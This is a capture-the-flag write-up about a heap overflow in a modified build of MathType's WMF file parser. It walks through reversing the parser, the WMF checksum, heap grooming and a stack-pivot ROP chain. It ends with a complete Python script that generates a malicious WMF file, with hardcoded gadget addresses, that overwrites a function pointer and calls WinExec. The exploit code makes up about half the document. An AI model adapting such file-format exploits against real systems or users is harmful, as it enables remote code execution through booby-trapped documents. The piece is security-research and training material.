# MTP write up

Last week I solved an interesting challenge, which is actually a 0day bug.  

We were given a software called [MathType](!https://www.dessci.com/en/products/mathtype/), and we need to pop a calc by using a wmf file with the modified version of this software.

It also said it is an unpatched heap overflow bug, so let's begin!

## Reversing

The first thought after I saw the challenge description was we need a fuzzing, but I wanna reverse and locate the code processing wmf file.

Simply generating a wmf file by File->Save menu, attach with your debugger and put a breakpoint at **CreateFileW**(I believe they don't use some hack trick like NtCreateFile or direct syscall). 

Now load the file you just saved, breakpoint triggered immediately.

Btw, They ***removed*** ASLR in patched version of MathType.



But where is the code that actually process WMF file? Now put a breakpoint at ***ReadFile***.

Here is the stack trace when we hit ReadFile.



Now we inspect the code at 0x004555AC , as below.







Let's dig deeper and see what this proc does.


Well, we don't need to fuzz anymore :).

## WMF format

So what the heck is wmf? 

> **Windows Metafile**(**WMF**) is an [image file format](https://en.wikipedia.org/wiki/Image_file_format) originally designed for [Microsoft Windows](https://en.wikipedia.org/wiki/Microsoft_Windows) in the 1990s. Windows Metafiles are intended to be portable between applications and may contain both [vector graphics](https://en.wikipedia.org/wiki/Vector_graphics) and [bitmap](https://en.wikipedia.org/wiki/Bitmap) components. It acts in a similar manner to [SVG](https://en.wikipedia.org/wiki/SVG) files.

MSDN also offers the [specification](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wmf/4813e7fd-52d0-4f42-965f-228c8b7488d2) for wmf file.

Thank god someone wrote a parser in 010editor. Which really helps us for understanding WMF file.

We can see the structure of WMF file is relatively simple.



A special header and a normal header, records follows after.

Wait WTF is that checksum? How we compute it?



OK, seems a very simple checksum algorithm. Simply xor each byte.

## Construction & Exploitation 

Now we saw an unlimited heap overflow bug by reversing program, but how to trigger it?

Let's review the code.


I bet u know nothing about what the heck is 1574 record function and what is 15 escape function. :)

Let's seek our answer in [MSDN](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wmf/cfc88064-d86d-4b52-9374-3ce27d456179).

1574 is actually 0x626 in hex which represents an ESCAPE record, and function 15 refers a META_ESCAPE_ENHANCED_METAFILE record.

> The **META_ESCAPE_ENHANCED_METAFILE Record** is used to embed an [EMF](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wmf/bd05c35c-3eb1-49cc-90df-651b1f73f15a#gt_d9d0bff9-d270-4528-9081-fe51db809c36) [metafile](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wmf/bd05c35c-3eb1-49cc-90df-651b1f73f15a#gt_ae5f028e-7e28-4a0b-bec6-2c87913f7db7) within a [WMF](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wmf/bd05c35c-3eb1-49cc-90df-651b1f73f15a#gt_48849cf6-d55c-47e5-b041-13b65854de2b) metafile. The EMF metafile is broken up into sections, each represented by one **META_ESCAPE_ENHANCED_METAFILE**.

Ah, we can embed some data in this record, clearly our program takes advantage of this feature and embed some of their custom structure inside.

So what's the structure look like? Here's an example.



A bit of messy, never mind :)

Now we know how to trigger the overflow, but what can we do with a simple heap overflow?

They also added some code in patched version, let's see.

I always check if the program is packed before reversing, and something interesting catches my eye.



Clearly they add some code in this section, let's see.



Hmm, a modified wmf process function.



They also added some interesting functions which I have no idea what they do.





Also, there's new function that can arrange heap layout to what we want.



So ideally we allocate some buffer with 0x108 size to fill the heap hole, and allocate vuln buffer with META_ESCAPE_ENHANCED_METAFILE record, but don't trigger oob. Buffer contains function pointer should be allocated right after our vuln buffer. Next time we can oob the heap and overwrite the function pointer to achieve RCE.



By controlling eip, we can pivot the stack and do ROP, simply write a "calc" in data segment and call WinExec .





## Full exploit code

```python
# -- coding:utf-8 --
# Python3 required
from struct import *
import base64


def p32(data):
    return pack('<I', data)


def p16(data):
    return pack('<H', data)


class Header:
    def __init__(self):
        self.key = 0x9AC6CDD7
        self.HWmf = 0
        self.left = self.top = self.right = self.bottom = self.inch = self.reserved = 0
        self.type = 1
        self.HeaderSize = 9
        self.version = 0x300
        self.size = 9
        self.NumberOfObjects = 0
        self.MaxRecord = 0x100
        self.NumberOfMembers = 0
        self.Records = []

    def __bytes__(self):

        self + Record()

        s = pack('<I', self.key)
        s += pack('<H', self.HWmf)
        s += pack('<H', self.left)
        s += pack('<H', self.top)
        s += pack('<H', self.right)
        s += pack('<H', self.bottom)
        s += pack('<H', self.inch)
        s += pack('<I', self.reserved)
        s += pack('<H', self.checksum(s))

        s += p16(self.type)
        s += p16(self.HeaderSize)
        s += p16(self.version)
        s += p32(self.size)
        s += p16(self.NumberOfObjects)
        s += p32(self.MaxRecord)
        s += p16(self.NumberOfMembers)

        for r in self.Records:
            s += bytes(r)
        return s

    def checksum(self, s):
        c = 0
        for x in range(int(len(s) / 2)):
            c ^= unpack('<H', s[2 * x:2 * x + 2])[0]
        return c

    def __add__(self, other):
        self.Records.append(other)
        rs = len(bytes(other))
        if rs > self.MaxRecord:
            self.MaxRecord = rs
        self.size += int(rs / 2)
        return self


class Record:
    def __init__(self):
        self.RecordFunction = 0
        self.RecordSize = 3

    def __bytes__(self):
        s = p32(self.RecordSize)
        s += p16(self.RecordFunction)
        return s


class PWNRecord(Record):
    def __init__(self, size, buf=None):
        super(PWNRecord, self).__init__()
        self.RecordFunction = 0x2019
        self.size = size
        self.buf = buf
        if self.buf:
            length = len(buf)
            if length & 1:
                length += 1
                buf += '\x00'.encode()
            self.RecordSize += 4 + int(length / 2)
        else:
            self.RecordSize += 6

    def __bytes__(self):
        s = super(PWNRecord, self).__bytes__()
        s += p32(0x233)
        s += p32(self.size)
        if self.buf:
            s += self.buf
        else:
            s += p32(0)
        return s


class EMFRecord(Record):
    def __init__(self, data):
        super(EMFRecord, self).__init__()
        self.RecordFunction = 1574

        self.efun = 0
        self.bytecount = 0
        self.CommentIdentifier = 'AppsMFCC'.encode()

        self.RecordSize += 11
        length = len(data)
        if length & 1:
            data += '\x00'.encode()
            length += 1

        self.RecordSize += int(length / 2)
        self.alloc_size = 0
        self.buff_size = 0
        self.version = 1
        if isinstance(data, str):
            self.data = data.encode()
        else:
            self.data = data

    def __bytes__(self):
        s = super(EMFRecord, self).__bytes__()
        s += p16(self.efun)
        s += p16(self.bytecount)
        s += self.CommentIdentifier
        s += p16(self.version)
        s += p32(self.alloc_size)
        s += p32(self.buff_size)
        s += self.data
        return s


if __name__ == '__main__':
    h = Header()
    h.right = 7168
    h.bottom = 512
    h.inch = 2304
    h + PWNRecord(0x20, 'cmd.exe\x00'.encode())
    for x in range(1000):
        h + PWNRecord(0x108)

    payload = 'Design Science, Inc.\x00'.encode()
    # original data from test
    payload += base64.b64decode('''BQEABwREU01UNwAAE1dpbkFsbEJhc2ljQ29kZVBhZ2VzABEFVGltZXMgTmV3IFJv
bWFuABEDU3ltYm9sABEFQ291cmllciBOZXcAEQRNVCBFeHRyYQATV2luQU5TSQAR
BlRlYW1WaWV3ZXIxMwASAAghL0WPRC9BUPQQD0dfQVDyHx5BUPQVD0EA9EX0JfSP
Ql9BAPQQD0NfQQD0j0X0Kl9I9I9BAPQQD0D0j0F/SPQQD0EqX0RfRfRfRfRfQQ8M
AQABAAECAgICAAIAAQEBAAMAAQAEAAUACgAA
''')

    e = EMFRecord(payload)
    e.efun = 0xf
    e.bytecount = 0xff
    e.alloc_size = 0x108
    e.buff_size = 0xda

    h + e

    payload = 'Design Science, Inc.\x00'
    payload += 'A' * 0x3e

    payload = payload.encode()

    payload += p32(0x00753053)  # gadget 1 0x00753053: pop esi ; pop esp ; pop ebp ; ret  ;  (6 found)
    payload += p32(0x0043b056)  # 0x0043b056: add esp, 0x18 ; ret  ;  (2 found)
    payload += 'Design Science, Inc.\x00\x00\x00\x00'.encode()

    # 0x004f086e: pop eax ; ret  ;  (51 found)
    # 0x004f0e9c: mov dword [ecx], eax ; ret
    # 0x0040359f: pop ecx ; ret  ;  (934 found)

    payload += p32(0x004f086e)
    payload += p32(0x636c6163)
    payload += p32(0x0040359f)
    payload += p32(0x00619FC0)
    payload += p32(0x004f0e9c)

    payload += p32(0x04EDB7E)  # WinExec
    payload += p32(0x583190)  # ExitProcess
    payload += p32(0x00619FC0)
    payload += p32(5)

    e = EMFRecord(payload)
    e.efun = 0xf
    e.bytecount = 0x100
    e.alloc_size = 0x108  # it doesn't matter
    e.buff_size = len(payload)  # oob

    h + e

    with open('exp.wmf', 'wb') as f:
        f.write(bytes(h))
```

## Final words

Thanks for organizer! Such an interesting challenge!. Btw heap manipulation works the way that I don't think it works :).

